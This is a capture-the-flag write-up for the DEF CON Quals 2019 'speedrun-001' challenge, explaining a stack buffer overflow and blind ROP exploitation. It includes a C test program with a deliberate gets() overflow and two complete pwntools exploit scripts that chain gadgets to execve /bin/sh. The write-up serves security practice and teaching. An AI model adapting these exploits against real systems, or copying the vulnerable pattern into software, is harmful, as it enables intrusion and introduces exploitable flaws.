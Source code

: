 
# SpeedRun 1

This is the first speedrun challenge for DEF CON Quals 2019. I did not have time to work on this problem for more than two hours during the actual CTF, so I ended up solving it after the competition and therefore could only develop a local exploit. The speedrun challenges look like they are intended to be a little simpler than the standard pwnable challenges: they are meant for people to practice their skills, and accordingly I found them instructive.

### Reconnaissance

The first speedrun challenge is a 64-bit ELF binary with no PIE, no canary, and partial RELRO. It's also statically linked, so it was obvious at a first glance that I would have access to any gadget I wished for ROP. Accordingly, my intuition was to find the buffer overflow vulnerability first.

IDA shows a large number of subprocesses. Also, the binary is protected by an alarm, but the call to `alarm` is obfuscated. Also, it appears that I cannot attach `GDB` to this process -- there is a security feature that I have not learned about that makes the binary difficult to debug. I thought about disabling the call to `alarm`, but first I just found the buffer overflow vulnerability.

The buffer overflow vulnerability is pretty obvious: the program asks the user for input, then echoes the input and exits. Here's the vulnerability viewed in Ghidra: my intuition is that because I'm reading up to 2000 characters into a 1024-character buffer, I should be able to overwrite the return address of this function and get control of `%rip`.

![./vulnerability_viewed_in_ghidra.png](./vulnerability_viewed_in_ghidra.png)

### Developing the Exploit

Because I can't attach a debugger, I have to either figure out how to defeat that security measure or else ROP this binary blind. I decided to ROP it blind for the practice and the challenge. My first question to answer was whether the string I enter can have null bytes. The string gets echoed back to me, but any bytes after the first null byte in the string will not get echoed.

Since I'm doing this blind, I started by passing in a string with 1024 bytes, eight bytes to overwrite the saved `%rbp`, and then the address of the code that greets the challenger. That successfully greeted me. Next, I put some null bytes in my payload prior to the return address, and verified that I could still jump to the code that greets the challenger. Great!

In order to write `/bin/sh` to the `.bss` section, I considered pivoting to the `.bss` section, then returning to the code that reads input from the user, and writing both `/bin/sh` and the continuation of the ROP chain to the `.bss` section. That indeed worked, but it turns out my solution was more complicated than it needed to be. The rest of the solution just involves setting up a ROP chain to call `execve()` with a pointer to a null-terminated `/bin/sh` as the first argument, NULL as the second argument, and NULL as the third argument. I was a little rusty in doing this, so doing it blind was difficult. I set up a vulnerable test program to which I could attach a debugger, and placed in the test program ROP gadgets that mirrored gadgets that I could find in `speedrun1`. Here's my test program:

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

char* global = "/bin//sh";

int fn1(void)
{   __asm__("pop %rdi;"
			"ret;"
			"pop %rsi;"
			"ret;"
			"pop %rax;"
			"ret;"
			"pop %rdx;"
			"ret;"
			"mov %rdi, (%rax);"
			"pop %rbx;"
			"ret;"
			"syscall");
}
int main (void)
{
  char input_buf[16];
  gets(input_buf);
  return 0;
}
```

(In the final exploit, I didn't need to use the global that I placed in the `.bss` section: I wrote `/bin/sh` to the `.bss` section myself.)

Notice one gadget that I found in `speedrun1`: `mov %rdi, (%rax)`. That lets me write `/bin/sh` to the `.bss` section directly.

With all that in place, here's the exploit code:
```
# exploit-speedrun1.py

from pwn import *
from time import sleep

local = True
if local:
	p = process('[redacted]/speedrun-001')
	DELAY = 0.1

POP_RSI_ADDR = 0x4101f3
POP_RAX_ADDR = 0x415664
POP_RDI_ADDR = 0x400686
POP_RDX_ADDR = 0x4498b5
SYSCALL_ADDR = 0x40129c
MOV_RDI_RAX_ADDR = 0x484ecc
BINSH_ADDR = 0x6bbb00
# picking an address far down the .bss section so it's likely to be
# null-terminated

payload = "A"*1024
payload += "A"*8 # New saved RBP
payload += p64(POP_RAX_ADDR)
payload += p64(BINSH_ADDR)
payload += p64(POP_RDX_ADDR)
payload += p64(0x0)
payload += p64(POP_RDI_ADDR)
payload += p64(0x0068732f6e69622f)
payload += p64(MOV_RDI_RAX_ADDR)
payload += p64(0x0) # RBX gets popped too
payload += p64(POP_RDI_ADDR)
payload += p64(BINSH_ADDR)
payload += p64(POP_RSI_ADDR)
payload += p64(0x0)
payload += p64(POP_RAX_ADDR)
payload += p64(0x3b)
payload += p64(SYSCALL_ADDR)
payload += "\n"
p.send(payload)
p.interactive()
```

Here's my version of the exploit that involves a pivot to the `.bss` section:

```
# exploit-speedrun1.py

from pwn import *
from time import sleep

local = True
if local:
	p = process('./speedrun-001')
	DELAY = 0.1

#GREET_CHALLENGER_ADDR = 0x400b4d
BSS_ROOT = 0x6bb300 # was 0x404700
NEW_RBP = BSS_ROOT + 0x200
POP_RSI_ADDR = 0x4101f3
POP_RAX_ADDR = 0x415664
POP_RDI_ADDR = 0x400686
POP_RDX_ADDR = 0x4498b5
SYSCALL_ADDR = 0x40129c
MOV_RDI_RAX_ADDR = 0x484ecc
BINSH_ADDR = 0x6bbb00
# picking an address far down the .bss section so it's likely to be
# null-terminated

payload = "A"*1024
payload = "A"*1024
payload += p64(NEW_RBP)
payload += p64(POP_RAX_ADDR)
payload += p64(NEW_RBP) # first 16 bytes are for
payload += p64(0x400b7e) # read stuff in

p.recvuntil("words?\n")
p.send(payload)
sleep(DELAY)

payload2 = "A"*8 # New saved RBP
payload2 += p64(POP_RAX_ADDR)
payload2 += p64(BINSH_ADDR)
payload2 += p64(POP_RDX_ADDR)
payload2 += p64(0x0)
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(0x0068732f6e69622f)
payload2 += p64(MOV_RDI_RAX_ADDR)
payload2 += p64(0x0) # RBX gets popped too
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(BINSH_ADDR)
payload2 += p64(POP_RSI_ADDR)
payload2 += p64(0x0)
payload2 += p64(POP_RAX_ADDR)
payload2 += p64(0x3b)
payload2 += p64(SYSCALL_ADDR)
payload2 += "\n"
p.send(payload2)

p.interactive()
```

That spawns a shell locally:

![./solved_locally.png](./solved_locally.png)

I can't get a remote shell because the competition has ended, but nonetheless that was a useful ROP review.

### Comparison to other approaches

[guyinatuxedo](https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s1) takes the same approach that I did. [k1nm3nh4ck3r](https://ctftime.org/writeup/15287) does everything from the command line, building up ROP gadgets in a note pad and then just executing the python code as a single line, directly in a terminal. 
